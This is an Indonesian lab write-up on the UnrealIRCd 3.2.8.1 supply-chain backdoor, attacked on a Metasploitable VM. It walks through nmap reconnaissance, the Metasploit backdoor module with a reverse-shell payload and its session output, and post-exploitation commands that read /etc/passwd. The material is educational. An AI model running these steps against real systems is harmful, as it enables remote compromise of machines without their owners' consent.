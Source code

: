 # Introduction

**IRC** (_Internet Relay Chat_) adalah protokol komunikasi berbasis teks yang memungkinkan pengguna untuk berkomunikasi secara _real-time_ dalam bentuk pesan teks. Protokol ini bekerja dengan model klien-server: Pengguna menggunakan program klien (seperti mIRC, HexChat, atau WeeChat) untuk terhubung ke server IRC. Di dalam server, ada saluran atau "kanal" (channels) yang berfungsi sebagai ruang obrolan untuk topik tertentu.

Dibuat pada tahun 1988, IRC adalah salah satu bentuk komunikasi daring tertua dan masih digunakan hingga saat ini, terutama oleh komunitas programmer, gamer, dan pengguna yang membutuhkan platform komunikasi yang cepat dan minim sumber daya.

**UnrealIRCd** adalah salah satu perangkat lunak server IRC yang paling populer, dikenal karena stabilitas dan fitur-fiturnya yang canggih. Namun, ada satu insiden terkenal yang melibatkan _backdoor_ yang disisipkan di salah satu rilisnya.

Pada tahun 2010, terungkap bahwa rilis resmi dari **UnrealIRCd versi 3.2.8.1** telah disusupi dengan sebuah _backdoor_ oleh pihak yang tidak bertanggung jawab. Kerentanan ini adalah contoh dari serangan rantai pasok (supply-chain attack), di mana kode berbahaya disisipkan ke dalam perangkat lunak sebelum didistribusikan ke publik.

**1. _Reconnaissence_**

- Analisis jaringan yang sedang dipakai untuk mengetahui IP yang digunakan

```
ifconfig
```
- Memindai seluruh jaringan internal yang saling terhubung untuk mencari target
```
nmap -sn <ip_range>

Ex. nmap -sn 192.168.1.0/24   //scanning the whole connected divices
```
**2. _Scanning and Enumeration_**

Memindai port IRC, 6667 pada IP target
```
nmap -p 6667 -sV <ip_metasploitable>
```
Fungsi utama dari opsi **-sV** pada perintah Nmap adalah untuk melakukan deteksi versi layanan (_service version detection_) pada port yang terbuka.
```
PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
MAC Address: 08:00:27:68:17:AC (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Host: irc.Metasploitable.LAN
```
**UnrealIRCd** adalah daemon IRC yang terkenal, dan di Metasploitable, versi yang digunakan memiliki kerentanan eksekusi perintah dari jarak jauh yang terkenal.

**3. _Gaining Access (Exploitation)_**
- Menjalankan Metasploit Framework
```
msfconsole
```
- Mencari modul eksploitasi yang sesuai dengan kerentanan yang ditemukan
```
search unrealircd
```

```
Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution

```
Fungsi utama dari modul ini adalah untuk mengotomatisasi proses pengiriman perintah yang memicu backdoor tersebut, sehingga seorang penyerang bisa mendapatkan akses shell dari jarak jauh.

- Memilih dan mengatur eksploitasi
```
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS <ip_metasploitable>
set LHOST <ip_kali_linux>
set PAYLOAD cmd/unix/reverse
```
Gunakan payload yang sesuai dengan modul, bisa di check dengan perintah 'show payloads'

- Cek _requirement_, pastikan tidak ada yang kurang atau terlewat
```
show options
```
- Jika sudah lengkap, jalankan serangan
```
exploit
```

```
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit
[*] Started reverse TCP double handler on 192.168.175.235:4444 
[*] 192.168.175.90:6667 - Connected to 192.168.175.90:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] 192.168.175.90:6667 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo tO0C7ZfD4jEaZcGb;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "tO0C7ZfD4jEaZcGb\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.175.235:4444 -> 192.168.175.90:40742) at 2025-08-18 09:30:23 -0400


```
**4. _Maintaining accsess dan Post exploitation_**
- Verifikasi user atau akses root
```
whoami
```
- Eksplorasi sistem
```
ls -l                    //melihat list file dan direktory
```
```
uname -a                 //melihat versi kernel dan informasi sistem
```
```
cat /etc/passwd          //melihat daftar user
```
```
cd /root                 //mencari file sensitif
```
